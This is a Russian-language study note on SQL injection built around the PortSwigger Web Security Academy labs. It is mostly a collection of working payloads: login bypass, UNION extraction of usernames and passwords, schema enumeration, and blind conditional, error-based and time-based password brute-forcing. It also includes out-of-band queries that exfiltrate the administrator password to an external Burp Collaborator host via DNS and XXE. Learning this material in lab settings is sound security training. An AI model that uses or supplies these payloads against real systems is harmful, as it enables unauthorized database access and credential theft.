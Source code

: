 [SQL Injection](https://portswigger.net/web-security/sql-injection)

[Cheat Sheet from PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) ^896bf6

# Извлечение скрытых данных

Запрос принимает `category`:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Инъекция:

```sql
' OR 1=1--
```

# Нарушение логики приложения

Запрос принимает `username` и `password`:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Инъекция:

```sql
administrator'--
```

# Извлечение данных из других таблиц БД

Запрос принимает `category`:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

Инъекция:

```sql
'...' UNION SELECT username, password FROM users--
```

### Определение количества столбцов для UNION
С помощью _ORDER BY_:

```sql
'...' ORDER BY 1-- 
'...' ORDER BY 2-- 
'...' ORDER BY 3--
etc.
```

С помощью _UNION SELECT NULL_:

```sql
'...' UNION SELECT NULL--
'...' UNION SELECT NULL,NULL-- 
'...' UNION SELECT NULL,NULL,NULL--
etc.
```

Для Oracle:

```sql
'...' UNION SELECT NULL FROM DUAL--
```

**Поиск столбцов с полезным типом данных для SQL-инъекции UNION**
Поиск строкового столбца, 4 столбца:

```sql
'...' UNION SELECT 'a',NULL,NULL--
'...' UNION SELECT NULL,'a',NULL--
'...' UNION SELECT NULL,NULL,'a'--
```

### SQL-инъекция UNION
Зная название таблицы, столбцов, а также  их нужное количество:

```sql
'...' UNION SELECT username, password FROM users--
```

### Извлечение нескольких значений в одном столбце
Два столбца, только второй строковой:

```sql
'...' UNION SELECT NULL,username||'~'||password FROM users--
```

Операторы конкатенации в разных БД в [[#^896bf6|Cheat Sheet'е]]

# Изучение БД
Определение версии, например, для Oracle:

```sql
'...' SELECT * FROM v$version
'...' UNION SELECT null,banner from v$version--
```

Список таблиц для большинства БД:

```sql
'...' SELECT * FROM information_schema.tables
```

Пример для non-Oracle:

```sql
'...' UNION SELECT NULL,NULL
'...' UNION SELECT table_schema,table_name FROM information_schema.tables--
'...' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_fekyvk'--
'...' UNION SELECT username_sowiok,password_rvcfaz FROM users_fekyvk--
```

Пример для Oracle:

```sql
'...' UNION SELECT NULL,NULL FROM DUAL--
'...' UNION SELECT NULL,table_name FROM all_tables--
'...' UNION SELECT NULL,column_name FROM all_tab_columns where table_name='USERS_DSDXRK'--
'...' UNION SELECT USERNAME_PCGUWT,PASSWORD_DDEJBN FROM USERS_DSDXRK--
```

# Blind SQL-инъекции
### Эксплуатация слепой SQL-инъекции путем запуска условного ответа
Пример для подбора пароля из [первой](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) лабы по слепым инъекциям _(условный ответ, инъекция в куке)_

```sql
'...' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm
```

### Вызов условных ответов путем запуска ошибок SQL
Пример для подбора пароля из [второй](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) лабы по слепым инъекциям _(условная ошибка, инъекция в куке, Oracle)_
Проверка ошибки валидным запросом (ошибка)

```sql
'...'||(SELECT '')||'
```

Возможно, БД Oracle (siuu)

```sql
'...'||(SELECT '' FROM dual)||'
```

Проверяем существование таблицы _users_

```sql
'...'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

Теперь проверяем conditional error

```sql
'...'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (ошибка)
'...'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (нет ошибки)
```

Проверим, существует ли имя пользователя _administrator_ (ошибка если есть)

```sql
'...'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Определяем длину пароля (ошибка если значение совпало)

```sql
'...'||(SELECT CASE WHEN (LENTGH(password)=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Подбираем пароль

```sql
'...'||(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Эксплуатация слепых SQL-инъекций путем инициирования временных задержек
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Пример для [четвертой](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) лабы
Перебором разных пэйлоадов определяем БД (PostgreSQL)

```sql
'...'%3Bpg_sleep(10)--
```

Составляем валидный запрос

```sql
'...'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--
```

Проверяем существование пользователя

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Определяем длину пароля

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Тут в бурпе особо не автоматизировать, нужно запустить 20 раз интрудер с 1 потоком и ловить задержки

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)>'m')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

### Эксплуатация слепых SQL-инъекций с помощью out-of-band (OAST) методов*
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Для out-of-band взаимодействия можно использовать различные сетевые протоколы, но обычно наиболее эффективным является DNS (служба доменных имен). Это связано с тем, что очень многие производственные сети позволяют свободно передавать DNS-запросы, поскольку они необходимы для нормальной работы производственных систем.
В Microsoft SQL Server для запуска DNS-запроса на определенный домен можно использовать: 

```sql
'...'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Приложение использует cookie-файл отслеживания для аналитики и выполняет SQL-запрос, содержащий значение переданного cookie. SQL-запрос выполняется асинхронно и не влияет на ответ приложения. Однако можно запустить внеполосное взаимодействие с внешним доменом. БД Oracle.

Например, можно объединить SQL-инъекцию с базовыми техниками XXE следующим образом (_уязвимость была устранена_):

```sql;xml
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Пример запроса для эксфильтрации данных:

```sql
'...'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Пример из второй лабы по out-of-band слепым инъекциям:

```sql
'...'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.zuxdgr1aog6aoa2udnrdhvfu9lfj38.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Лабы

[Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

[Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)